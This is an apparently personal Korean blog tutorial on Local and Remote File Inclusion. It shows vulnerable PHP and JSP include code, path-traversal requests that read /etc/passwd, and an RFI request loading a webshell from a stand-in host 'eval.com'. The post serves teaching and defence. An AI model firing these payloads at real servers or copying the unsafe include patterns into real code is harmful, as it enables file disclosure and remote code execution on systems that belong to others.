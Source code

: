 ```yaml
---
layout: single
title: File Inclusion (LFI/RFI)
categories: Web-vuln
tag: [File Inclusion, LFI,RFI, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# File Inclusion 취약점이란?

> 해당 취약점은 응용 프로그램에서 File을 불러 올 때 include를 사용하여 코드내에 Built 하거나 동적으로 파일을 포함하는 로직이 구현되어있을경우 일반적으로 나타나며, 다른 Path Traversal 과 같은 타 취약저믈과 연계될 수 있다.

💡 **<u>이러한 File Inclusion은 Local File Inclusion(LFI)와 Remote File Inclusion(RFI)로 나뉜다.</u>** 
{: .notice--primary} 

```javascript
$file = $_GET['file'];

include('testdircetory/' . $file);
```

위와같은 코드는 File Inclusion에 취약한 코드라고 볼 수 있다. 위와 같이 구현되어 있을 경우<br>
아래와 같은 취약점으로 이어질 수 있다.

```
http://test.com/?file=../../../etc/passwd
```

# Local File Inclusion
로컬에 존재하는 파일, 현재 서버에 존재하고 있는 파일을 실행할 수 있으며, 웹 서버의 엑세스 로그, 패스워드파일 등 민감한 파일을 열거 할 수 있으며, 해당 서버에 공격자가 File Upload 취약점을 통해 웹 쉘을 올려놓았어도 이를 Include 시킬 수 있다.

```
GET /testlfi?path=file:///etc/passwd
```

# Remote File Inclusion
원격지에서 파일을 읽어들여 이를 inclusion 하는 취약점이며, 공격자가 본인의 서버에 웹쉘을 미리 생성하여 이를 Inclusion 할 수 있다.<br>
http, ftp uri형식으로 보통 가져온다.

```
GET /testrfi?lib=https://eval.com/webshell.php
```

# 공격 표면
file을 읽은 후 이를 가져올 수 있는 구간이면 해당 취약점을 의심해볼 수 있다. 절대경로 또는 상대경로를 통해 요청을 하였을 시 요청 경로가 삭제되지 않는다면 LFI는 발생한다.

## 언어별 취약 코드 로직

<div class="notice--primary" markdown="1">

1. PHP

```php
<?php
if (isset($_GET['file'])) {
    include($_GET['file'] . '.php');
}
?>
```

2. JSP

```jsp
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

```
GET /testlfi?path=file:///etc/passwd
'''
or
'''
GET /testlfi?path=file=../../../../etc/passwd
```
</div>